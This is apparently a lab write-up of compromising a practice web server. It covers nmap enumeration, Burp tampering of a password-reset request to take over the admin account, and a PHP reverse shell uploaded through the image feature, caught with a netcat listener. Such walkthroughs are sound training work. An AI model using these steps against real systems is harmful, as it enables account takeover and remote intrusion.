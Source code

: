 # Enumeration
## Nmap
Ran "Nmap -ST *IP* -p- -T4" to find all possible open ports.
Discovered that Port 22 and Port 80 were open.
Ran "Nmap -sV *IP* -p 22 -T4" and found Port 22 uses OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
Ran "Nmap -sV *IP* -p 80 -T4" and found Port 80 runs Apache httpd 2.4.41 (Ubuntu)
```console
┌─[zionglitch@parrot]─[~]
└──╼ $nmap -sT 10.10.116.209 -p- -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-11 01:51 GMT
Nmap scan report for 10.10.116.209
Host is up (0.23s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 667.45 seconds
┌─[zionglitch@parrot]─[~]
└──╼ $nmap -sV 10.10.116.209 -p 22 -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-11 02:05 GMT
Nmap scan report for 10.10.116.209
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.23 seconds
┌─[zionglitch@parrot]─[~]
└──╼ $nmap -sV 10.10.116.209 -p 80 -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-11 02:26 GMT
Nmap scan report for 10.10.116.209
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.09 seconds
```
# Exploitation
Opening Metasploit and searching for any exploits did not result in any findings.
Next, went to the webpage of the IP, nothing of interest was found on any of the pages, and neither in the Source Code.
Clicking on "Merchant Central" allows us to create a login.
Basic SQL Injection did not work here.
We created an account and logged in.
Majority of the  pages here did not work, but an Profile/Edit Profile page revealed an admin email of ```admin@sky.thm```

Using this email as the username, and running basic SQL Injection on the password did not work.
We logged back in as the user we created and noticed a reset user field, this allows us to reset the password for our account, without requiring the previous password. However, the username field is grayed out and did not allow us to change it.

We launched burp suite and used Proxy/Intercept to intercept the POST message of when we type in the new password. Sure enough, Burp Suite intercepted the POST message, and we were able to change the username field to ```admin@sky.thm``` and the password to ```password```

We logged out of our account and sure enough were able to login as the admin. Now it was time to go back to the terminal and see if we can SSH with these new credentials.

Sadly, it did not work.
```console
┌─[zionglitch@parrot]─[~]
└──╼ $ssh admin@sky.thm@10.10.105.174
The authenticity of host '10.10.105.174 (10.10.105.174)' can't be established.
ECDSA key fingerprint is SHA256:zSoCEcBBY73hNL9ItPA4CnB/405/W6GQYsl94qRMkOo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.105.174' (ECDSA) to the list of known hosts.
admin@sky.thm@10.10.105.174's password: 
Permission denied, please try again.
admin@sky.thm@10.10.105.174's password: 
Permission denied, please try again.
admin@sky.thm@10.10.105.174's password: 

┌─[✗]─[zionglitch@parrot]─[~]
└──╼ $ssh admin@10.10.105.174
admin@10.10.105.174's password: 
Permission denied, please try again.
admin@10.10.105.174's password: 
```
Going back to the website, we can see that the admin account is able to upload image files, let's try and upload a reverse shell file injection instead.
First let's find out win which directory the image is being uploaded by checking the profile picture.
It looks like it's located at *IP*/v2/profileimages.
Let's grab the following reverse shell php from GitHub, shoutout to Pentestmonkey.
```console https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php```
Let's edit the file and replace the IP with ours, and then open a new terminal and run Netcat.
```console
┌─[zionglitch@parrot]─[~]
└──╼ $nc -lvnp 1234
listening on [any] 1234 ...
```
Now all we need to do is upload the php file on the Webpage and then go to the following link.
```console http://10.10.184.168/v2/profileimages/phpreverseshell.php```
And BAM!
```console 
connect to [10.13.27.44] from (UNKNOWN) [10.10.184.168] 50762
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 19:38:36 up 42 min,  0 users,  load average: 0.00, 0.00, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```
